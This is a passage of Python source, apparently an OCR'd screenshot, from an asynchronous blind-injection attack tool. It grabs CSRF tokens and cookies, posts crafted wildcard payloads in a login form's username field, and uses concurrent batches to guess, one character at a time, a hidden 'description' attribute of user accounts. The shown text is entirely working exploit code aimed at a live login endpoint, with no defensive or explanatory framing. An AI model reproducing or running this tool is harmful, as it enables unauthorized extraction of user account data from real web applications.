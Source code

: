 ```python
                print(f"[!] Token error: {e}")
            return None, {}
    
    async def test_injection_fast(self, username, desc_prefix, mode="wildcard"):
        """Fast injection test with connection pooling"""
        async with self.global_semaphore:
            async with httpx.AsyncClient(
                verify=VERIFY_TLS,
                timeout=15.0,
                limits=httpx.Limits(max_connections=30, max_keepalive_connections=20)
            ) as client:
                
                token, cookies = await self.get_token_and_cookies(client)
                if not token:
                    return False
                
                payload = self.prepare_injection(username, desc_prefix, mode)
                
                data = {
                    USERNAME_FIELD: payload,
                    PASSWORD_FIELD: PASSWORD_TO_SEND,
                    REMEMBER_FIELD: "false",
                    CSRF_FORM_FIELD: token
                }
                
                try:
                    response = await client.post(TARGET_URL, data=data, cookies=cookies)
                    self.request_count += 1
                    return SUCCESS_INDICATOR in response.text
                except:
                    return False
    
    async def check_has_description(self, username):
        """Check if user has description field"""
        return await self.test_injection_fast(username, "", "exists")
    
    async def find_next_char_concurrent(self, username, known_prefix):
        """
        CONCURRENT CHARACTER TESTING
        Test multiple characters at the same time
        """
        async def test_char(char):
            """Test single character"""
            test_prefix = known_prefix + char
            result = await self.test_injection_fast(username, test_prefix, "wildcard")
            await asyncio.sleep(CHAR_DELAY)
            return char, result
        
        # Split charset into batches for concurrent testing
        found_chars = []
        
        # Test all characters concurrently in batches
        for i in range(0, len(self.charset), CONCURRENT_CHAR_TESTS):
            batch = self.charset[i:i+CONCURRENT_CHAR_TESTS]
            
            # Run batch concurrently
            tasks = [test_char(char) for char in batch]
            results = await asyncio.gather(*tasks)
            
            # Collect found characters
            for char, is_valid in results:
                if is_valid:
                    found_chars.append(char)
```